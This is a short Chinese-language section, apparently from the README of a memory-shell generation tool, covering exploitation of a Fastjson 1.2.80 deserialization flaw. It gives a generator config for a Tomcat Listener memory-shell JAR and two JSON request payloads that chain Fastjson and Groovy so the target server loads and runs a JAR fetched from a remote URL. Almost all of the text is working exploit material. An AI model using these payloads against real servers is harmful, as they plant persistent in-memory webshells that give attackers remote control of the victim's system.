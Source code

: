 #### 05 反序列化漏洞 (Fastjson)

本地测试环境
- Tomcat v8.5.83
- Fastjson v1.2.80 反序列化漏洞
- Groovy v3.0.8


1、选择 输出格式为 JAR，生成 payload

```text
server_type=Tomcat
shell_type=Listener
# 选择利用链为 Fastjson+Groovy
gadget_type=FastjsonGroovy
format_type=JAR
output_path=/tmp/fj/
```

![](./img/1708847745212.png)

2、利用 groovy 利用链打内存马

第1个请求

```json
{
    "@type":"java.lang.Exception",
    "@type":"org.codehaus.groovy.control.CompilationFailedException",
    "unit":{}
}
```

第2个请求

```json
{
    "@type":"org.codehaus.groovy.control.ProcessingUnit",
    "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
    "config":{
        "@type":"org.codehaus.groovy.control.CompilerConfiguration",
        "classpathList":"http://127.0.0.1:8888/NetworkUtils.jar"
    }
}
```
